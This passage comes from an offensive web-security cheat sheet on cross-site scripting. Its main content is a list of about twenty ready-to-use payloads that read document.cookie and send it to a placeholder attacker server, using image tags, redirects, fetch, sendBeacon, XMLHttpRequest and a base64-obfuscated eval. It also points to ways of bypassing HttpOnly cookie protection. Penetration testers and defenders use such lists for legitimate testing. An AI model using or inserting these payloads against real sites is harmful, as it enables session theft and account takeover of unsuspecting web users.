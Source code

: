```javascript
// It's also possible to execute JS code only with the chars: []`+!${}
```

## XSS common payloads

### Several payloads in 1

{{#ref}}
steal-info-js.md
{{#endref}}

### Iframe Trap

Make the use navigate in the page without exiting an iframe and steal of his actions (including information sent in forms):

{{#ref}}
../iframe-traps.md
{{#endref}}

### Retrieve Cookies

```javascript
<img src=x onerror=this.src="http://<YOUR_SERVER_IP>/?c="+document.cookie>
<img src=x onerror="location.href='http://<YOUR_SERVER_IP>/?c='+ document.cookie">
<script>new Image().src="http://<IP>/?c="+encodeURI(document.cookie);</script>
<script>new Audio().src="http://<IP>/?c="+escape(document.cookie);</script>
<script>location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.write('<img src="http://<YOUR_SERVER_IP>?c='+document.cookie+'" />')</script>
<script>window.location.assign('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>window['location']['assign']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>window['location']['href']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>document.location=["http://<YOUR_SERVER_IP>?c",document.cookie].join()</script>
<script>var i=new Image();i.src="http://<YOUR_SERVER_IP>/?c="+document.cookie</script>
<script>window.location="https://<SERVER_IP>/?c=".concat(document.cookie)</script>
<script>var xhttp=new XMLHttpRequest();xhttp.open("GET", "http://<SERVER_IP>/?c="%2Bdocument.cookie, true);xhttp.send();</script>
<script>eval(atob('ZG9jdW1lbnQud3JpdGUoIjxpbWcgc3JjPSdodHRwczovLzxTRVJWRVJfSVA+P2M9IisgZG9jdW1lbnQuY29va2llICsiJyAvPiIp'));</script>
<script>fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', {method: 'POST', mode: 'no-cors', body:document.cookie});</script>
<script>navigator.sendBeacon('https://ssrftest.com/x/AAAAA',document.cookie)</script>
```

> [!NOTE]
> You **won't be able to access the cookies from JavaScript** if the HTTPOnly flag is set in the cookie. But here you have [some ways to bypass this protection](../hacking-with-cookies/index.html#httponly) if you are lucky enough.
